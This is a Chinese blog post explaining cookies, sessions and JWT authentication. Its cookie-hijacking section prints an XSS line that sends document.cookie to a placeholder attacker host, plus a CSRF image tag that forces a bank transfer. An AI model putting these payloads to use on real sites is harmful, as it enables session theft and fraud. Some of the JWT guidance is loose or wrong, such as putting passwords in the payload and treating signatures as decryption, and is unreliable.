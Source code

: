 ```yaml
---
layout: post
title: Cookie 、 Session 和 Token
date: 2019-03-07
categories: 前端
tags:
  - token
  - cookie
  - 网络安全
---
```


`Cookie` 、 `Session` 和 `Token`

最后更新日期 2019-05-17

<!-- more -->

## 前端安全需要注意哪几方面问题

`XSS`（跨域脚本）、`CSRF`（跨站请求伪造攻击）、`arp`、`xff`、中间人攻击、运营商劫持、防暴刷

## Cookie 、 Session 和 Token

简介：

- `cookie` 服务员看你的身份证，给你一个编号，以后，进行任何操作，都出示编号后服务员去看查你是谁。
- `token` 直接给服务员看自己身份证

> 参考文章：
>
> - [cookie 和 token](https://www.jianshu.com/p/ce9802589143)
> - [MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)

### Cookie

`HTTP Cookie`（也叫 `Web Cookie` 或浏览器 `Cookie`）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。`Cookie` 使基于无状态的 `HTTP` 协议记录稳定的状态信息成为了可能。

Cookie 主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

#### cookie 的创建

服务器收到 `HTTP` 请求时，服务器可以在响应头里面添加一个 `Set-Cookie` 选项。浏览器收到响应后通常会保存下 `Cookie`，之后对该服务器每一次请求中都通过 `Cookie` 请求头部将 `Cookie` 信息发送给服务器。
服务端：

```js
  Set-Cookie: <cookie名>=<cookie值>
```

浏览器：(请求头部中加入)

```js
Cookie: <cookie名>=<cookie值>
```

#### JS 中获取 Cookie

通过 `Document.cookie` 属性可创建和访问的 `Cookie`，但是无法访问带有 `HttpOnly` 标记的 `Cookie`（缓解 `XSS` 攻击）

#### cookie 劫持

[MDN-cookie 安全](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#%E5%AE%89%E5%85%A8)

1. 攻击者通过 `xss` 拿到用户的 `cookie` 然后就可以伪造 `cookie` 了。

   ```js
   new Image().src =
     'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
   ```

2. 或者通过 `csrf` 在同个浏览器下面通过浏览器会自动带上 `cookie` 的特性在通过用户网站-攻击者网站-攻击者请求用户网站的方式浏览器会自动带上 `cookie`

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"
/>
```

<!-- ## Cookie 与 Cookie 劫持

[Cookie 与 Cookie 劫持](https://g2ex.github.io/2015/06/29/Cookie-and-Cookie-Injection/) -->

## HTTP Session

`session` 本身是一个抽象的概念，为了实现中断和继续等操作，将 `user agent` 和 `server` 之间一对一的交互，抽象为“会话”，进而衍生出“会话状态”，也就是 `session` 的概念。`Session` 对象存储特定用户会话所需的属性及配置信息，维持一个会话的核心就是客户端的唯一标识，即 `session id`，通常又存储在 `cookie` 中。

## cookie 和 session 有什么区别

- `session` 在服务器端（较安全），`cookie` 在客户端， `session` 默认被存在在服务器的一个文件里（不是内存）
- 储存大小和方式：
  - `cookie`: 不超过 4K，只能保存 `ASCII`
  - `session`: 存储数据远高于 `cookie`, 可保存一些常用变量信息
- 有效期： `cookie` 有效时间长， `session` 一般客户端关闭就失效

## cookie 和 session 的联系

参考： [cookie 和 session](https://juejin.im/post/5cd9037ee51d456e5c5babca#heading-2)

登陆流程： `SessionID` 是连接 `Cookie` 和 `Session` 的一道桥梁，大部分系统也是根据此原理来验证用户登录状态。

特殊情况：

- 浏览器禁止了 `cookie`
  > 解决方法： 请求的时候采用 `post` 请求提交， 或者在地址后面拼上 `SessionID`
- 使用 `Token` 解决

## `token` 加密和登陆验证

> `JWT（JSON Web Tokens）` 用户发送登陆信息至服务器，服务器认证后，生成一个 `JSON` 对象，返回给用户，服务器完全只靠这个对象认定用户身份。为了防止用户篡改数据，服务器在生成这个对象的时候，会加上签名。
> 缺点：由于服务器不保存 `session` 状态，因此无法在使用过程中废止某个 `token`，或者更改 `token` 的权限。也就是说，一旦 `JWT` 签发了，在到期之前就会始终有效。（设置较短的有效期）

- `token`是无状态的，后端服务不需要记录 `token`。每个令牌都是独立的。
- 服务器不记录哪些用户已登陆或者已经发布了哪些 `JWT`。对服务器的每个请求都需要带上验证请求的签名`token`，都要在`HTTP header`中 `Authorization` 字段里，携带服务器返回的 `JSON`
- 服务器对 `JWT` 进行解码，如果 `token` 有效，则处理该请求
- `token` 是放在 `jwtJSON Web Tokens(jwt)`里面下发给客户端的而且不一定存储在哪里（可以存在 `localStorage` `sessionStorage`，或者 `cookie` 中） 不能通过 `document.cookie` 直接拿到，通过 `jwt+ip` 的方式可以防止 被劫持即使被劫持也是无效的 `jwt`
- 也可以储存在 `Cookie` 里面，在请求的时候自动发送，但是不能跨域

```js
// Request Headers 请求中
Authorization: `Bearer ${token}`
```

** JWT 数据格式 **

`Header.Payload.Signature`

> 示例：eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6NjksInVzZXJuYW1lIjoiXHU1OTI3XHU2Y2IzXHU1NDExXHU0ZTFjXHU2ZDQxIiwicGhvbmUiOiIxMzYyMTg3OTc4NCIsImV4cCI6MTU2MTcwNzYwM30.G77w5AMqu1PbT6YL3P1xYHBhUD16rRYvUwa89Nhkvtw
> 需要使用 `Base64` 转为 字符串

- Header (头部)
- Payload (负载)
- Signature (签名)

### Header

JSON 对象

```js
{
 "alg": "HS256", // 签名所用的算法，默认 `HMAC SHA256（HS256)`
 "typ": "JWT" //token 类型
}
```

### Payload

JSON 对象

```js
  {
    "iss": "签发人",
    "exp": "过期时间",
    "nbf": "生效时间",
    "iat": "签发时间",
    "jti": "编号"
  }
```

### Signature

对 `Header` 和 `Payload` 的签名，防止被篡改， 一般是加上一个唯一的字符串，来防止 `token` 被伪造篡改

简单的使用方法：

- 需要一个 `secret`（随机数）
- 后端利用 `secret` 和加密算法(如：HMAC-SHA256)对 `payload`(如账号密码)生成一个字符串(`token`)，返回给前端
- 前端每次 `request` 在 `header` 中带上登陆返回的 `token`
- 后端用同样的算法解密
